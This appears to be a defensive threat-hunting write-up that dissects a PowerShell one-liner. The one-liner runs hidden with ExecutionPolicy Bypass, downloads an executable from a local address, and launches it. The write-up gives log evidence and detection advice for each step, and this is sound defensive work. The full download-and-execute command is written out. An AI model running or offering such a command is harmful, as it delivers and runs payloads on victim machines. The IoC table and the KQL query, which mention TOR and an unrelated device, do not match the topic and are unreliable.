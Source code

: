 # Suspicious PowerShell Activity Detected: Attempted Malicious File Download and Execution - Usage

## Overview:

This sequence is built to fetch a file from a network location and run it while reducing visibility and interrupting normal security signals. What this really means is the actor is trying to automate delivery and execution while making forensic and user detection harder.
```
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference='silentlycontinue'; (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\test-WDATP-test\invoice.exe'); Start-Process 'C:\test-WDATP-test\invoice.exe'
```

## Step 1 Start PowerShell with NoExit
**What it does:** Starting PowerShell with NoExit keeps the shell open after the command returns. The process remains alive instead of terminating immediately.

**What shows up in logs:** A long running powershell.exe process with a start time that does not match normal interactive sessions. Command line fields will include an argument that indicates the NoExit option. Event logs may show a spawn of powershell.exe with a parent process that is unusual for interactive shells.

**Why an attacker likes this:** It allows follow on commands to execute in the same session, and it can leave the process present while other actions complete. That increases the window for the payload to be downloaded and run.

**How to detect and respond:** Look for powershell.exe processes with abnormal lifetimes or nonstandard parent processes. Flag long lived PowerShell tokens that are not associated with legitimate admin sessions. If seen, collect process memory and command line arguments and isolate the host.

## Step 2 Set ExecutionPolicy to Bypass
**What it does:** Setting execution policy to bypass overrides local script execution restrictions. It removes the built in prompts or policy checks that would normally prevent unsigned or restricted scripts from running.

**What shows up in logs:** Command line parameters in process creation events will contain the execution policy argument. Script block logging, if enabled, will show the script content. Transcription files, if configured, will capture commands that ran.

**Why an attacker likes this:** Scripts and remote code run without being blocked by policy, so scripted payloads execute on locked down systems.

**How to detect and respond:** Ensure script block logging and module logging are enabled. Correlate executionpolicy command line flags with other suspicious indicators. If bypass is observed, treat the session as hostile, capture artifacts, and reset local policies where possible.

## Step 3 Run with WindowStyle Hidden
**What it does:**
Running with window style set to hidden launches the shell or script without a visible window. The action is invisible to the interactive user session.

**What shows up in logs:** No GUI evidence on the desktop. Process creation and parent process relationships still appear in telemetry. Endpoint UI event logs may show no interactive terminal, which is itself suspicious for scripted PowerShell runs.

**Why an attacker likes this:** It reduces chance of a user noticing something running, which prolongs undetected activity.

**How to detect and respond:** Search for powershell processes spawned without a visible console, especially when originating from service or scheduled task contexts. Use EDR sensors that capture process trees and window state.

## Step 4 Suppress errors with ErrorActionPreference silentlycontinue
**What it does:** Setting the error action preference to silentlycontinue hides error messages and prevents failures from drawing attention. The script continues without producing visible exceptions.

**What shows up in logs:** Fewer visible error dialogs and less interactive troubleshooting noise. Telemetry may still capture failed network connections or file write errors, but those may be suppressed at the script level.

**Why an attacker likes this:** Error suppression makes noise reduction explicit. Fewer user or admin alerts means a longer dwell time.

**How to detect and respond:** Correlate suppressed script-level behavior with other signals. Look for sequences where network requests or file writes occur without follow up error events. Enable script tracing to capture suppressed exceptions in logs.

## Step 5 Download a file via a network client object
**What it does:** The script creates a network client instance and requests a binary from a specified URL, then writes the response to disk. This moves a payload from a remote or local server into the host file system.

**What shows up in logs:** Network logs will show outbound connections to the specified IP or domain. Process creation events and file system events will show a new file being written to disk. EDR may record file write and hash data. DNS logs may reveal lookup activity.

**Why an attacker likes this:** It delivers the binary payload in a controlled way, often from a short lived or local server to reduce detection and attribution. Writing to an obfuscated or unusual path reduces immediate discovery.

**How to detect and respond:** Monitor for powershell initiated network calls, especially to uncommon internal IPs or external endpoints. Watch file creation events and immediately hash new executables. Block known malicious endpoints and quarantine any host that writes unexpected executables.

## Step 6 Execute the downloaded file with Start-Process
**What it does:** The script launches the downloaded executable as a new process. That transitions the operation from script to native binary execution, which often carries the malicious payload.

**What shows up in logs:** A new process tree node appears for the downloaded executable with its parent indicated as powershell.exe. Process creation events, command line, and image load artifacts will be present. The new binary may trigger detections or may be unsigned and untrusted.

**Why an attacker likes this:** This completes the delivery chain. The actor gets code running on the endpoint that can perform persistence, lateral movement, or data theft.

**How to detect and respond:** Detect process parentage where powershell.exe spawns unknown executables. Block execution of binaries in user-writable or temporary locations. Use application control allow lists and remove execute permissions from uncommon directories.

## Why the chain is dangerous overall
Chaining these steps hides activity, bypasses local policy, and enables automated delivery and execution. The combination increases speed and reduces chances of manual discovery. At scale this pattern is commonly used to drop shells, trojans, or loaders that enable further compromise.

---

## Tables Used to Detect IoCs:

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the silent installation of TOR as well as the TOR browser and service launching.|

---

## Related Queries:
```kql
DeviceFileEvents
| where DeviceName startswith "ARYA"
| order by Timestamp desc
| where InitiatingProcessAccountName  !in ("system", "local service")

```

---

## Created By:
- **Author Name**: Josh Madakor
- **Author Contact**: https://www.linkedin.com/in/joshmadakor/
- **Date**: August 31, 2024

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `September  6, 2024`  | `Josh Madakor`   

